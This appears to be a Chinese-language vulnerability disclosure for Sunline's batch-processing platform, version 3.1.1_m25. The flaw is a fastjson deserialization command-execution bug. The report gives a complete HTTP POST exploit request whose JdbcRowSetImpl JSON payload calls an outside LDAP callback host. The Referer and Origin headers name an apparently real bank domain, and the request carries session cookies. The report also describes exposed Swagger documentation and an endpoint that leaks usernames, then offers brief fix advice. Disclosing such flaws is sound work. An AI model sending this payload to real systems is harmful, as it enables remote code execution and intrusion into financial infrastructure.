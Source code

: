 # sunline

长亮sunline跑批平台助手接口存在fastjson命令执行漏洞

漏洞地址：

https://xxxxxxx/loader/api/uiAuth/login

https://xxxxxxx/loader/api/uiAuth/reset-password-sendmail
         
漏洞描述：长亮sunline跑批平台接口存在fastjson命令执行漏洞

漏洞详情：

1、接口存在fastjson命令执行漏洞

![image](https://github.com/ranhn/Sunline/assets/107679328/2a018bf1-faf5-4fef-84a0-e16bc44661d5)

POST /loader/api/uiAuth/reset-password-sendmail HTTP/1.1

Host: xxxxxx.com.ph

Cookie: acw_tc=0bc1a14316933660392643949e455a577eede41c8a82de5b661a2f4841446e; 

JSESSIONID=D34E1ED55B1F03E9068D984A58F487D8

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0

Accept: /

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Referer: https://bk-assistant.ownbank.com.ph/

Content-Type: application/json

If-Modified-Since: 0

Content-Length: 129

Origin: https://bk-assistant.ownbank.com.ph

Sec-Fetch-Dest: empty

Sec-Fetch-Mode: cors

Sec-Fetch-Site: same-origin

Pragma: no-cache

Cache-Control: no-cache

Te: trailers

Connection: close

{“@type”:“com.sun.rowset.JdbcRowSetImpl”,“dataSourceName”:“ldap://r0mkls.dnslog.cn”, “autoCommit”:true}
![image](https://github.com/ranhn/Sunline/assets/107679328/f0994785-72c3-4d76-ba7b-e17b6ab1a77a)
2、同时存在接口文档暴露问题

https://xxxxxxx.com.ph/swagger-ui.html

![image](https://github.com/ranhn/Sunline/assets/107679328/4309d4a0-e3de-49c9-baea-c0498f59ca56)

https://xxxxxxx.com.ph/loader/syncResourcesNotify/users 返回用户名

![image](https://github.com/ranhn/Sunline/assets/107679328/44cfc0a8-91cd-479a-aecc-1ed2b51d16e8)

漏洞版本：3.1.1_m25

![image](https://github.com/ranhn/Sunline/assets/107679328/a5810124-ca66-4005-9289-66f746900be1)


修复建议：

1、升级到最新版本。

2、接口敏感信息文档做鉴权。
